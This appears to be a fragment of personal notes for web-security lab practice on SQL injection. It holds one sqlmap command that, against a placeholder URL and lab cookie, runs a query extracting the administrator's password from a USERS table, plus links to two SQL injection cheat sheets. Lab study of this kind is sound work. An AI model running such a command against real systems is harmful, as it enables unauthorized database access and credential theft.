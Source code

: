 ____

```bash
sqlmap -u "URL" --cookie='lab=cookie' --level 5 --risk 3 -p param --batch --threads 10 --dbms=postgresql --sq l-query="SELECT password from USERS where username='administrator'"
```

[https://tib3rius.com/sqli](https://tib3rius.com/sqli) 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



